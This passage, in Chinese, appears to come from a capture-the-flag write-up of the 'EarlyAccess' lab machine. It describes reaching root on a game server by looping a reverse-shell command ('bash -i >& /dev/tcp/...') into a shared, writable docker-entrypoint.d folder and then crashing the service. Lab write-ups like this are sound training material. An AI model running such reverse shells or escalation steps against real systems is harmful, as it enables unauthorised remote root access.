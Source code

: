 名为 server.js 的脚本正在/usr/src/app 文件夹中运行。查看该脚本，我们看到它是一个井字游戏，并且正在侦听端口 9999。有一个自动播放功能，让我们指定要播放多少回合，让我们从早期访问服务器上的 SSH 会话中尝试一下:

```
drew@earlyaccess:~$ curl -X POST -d "rounds=3" http://172.19.0.4:9999/autoplay 
<html>
  <body>
    <h1>Starting autoplay with 3 rounds</h1>
    <h4>Stats:</h4>
    <p>Wins: 1</p>
    <p>Losses: 2</p>
    <p>Ties: 0</p>
    <a href="/autoplay">Go back</a>
  </body>
</html>
```

在脚本中，我们还看到了这一点:

```
// Stop execution if too many rounds are specified (performance issues may occur otherwise)
  if (req.body.rounds > 100)
  {
    res.sendStatus(500);
    return;
  }
```

# 游戏服务器崩溃

因此，要在游戏服务器上获得根，我们需要一种使服务器崩溃的方法，然后当它重新启动时，我们需要在/docker-entrypoint.d/文件夹中有一个带有反向 shell 的文件，这样它就可以执行了。

在 gameserver 上我们看到这个:

```
game-tester@game-server:~$ ls -l /
drwxrwxr-t   2 root 1000 4096 Feb  6 11:38 docker-entrypoint.d
```

在早期访问服务器上，我们看到了这个:

```
drew@earlyaccess:~$ ls -l /opt
total 8
drwx--x--x 4 root root 4096 Jul 14  2021 containerd
drwxrwxr-t 2 root drew 4096 Feb  6 12:39 docker-entrypoint.d
```

因此，我们可以对 earlyaccess 服务器上的文件夹进行写访问，该文件夹安装在游戏服务器上。让我们放一个反向外壳进去，然后让游戏崩溃。我们需要循环执行此操作，因为有一个清理任务正在运行，它每分钟都会清空 docker-entrypoint.d 文件夹:

```
drew@earlyaccess:~$ while true; do echo "bash -i >& /dev/tcp/10.10.14.12/1337 0>&1" > /opt/docker-entrypoint.d/pencer.sh && chmod +x /opt/docker-entrypoint.d/pencer.sh && sleep 1; done
```

让它保持运行状态，并启动另一个 SSH 会话，如 drew to earlyaccess.htb 所示。
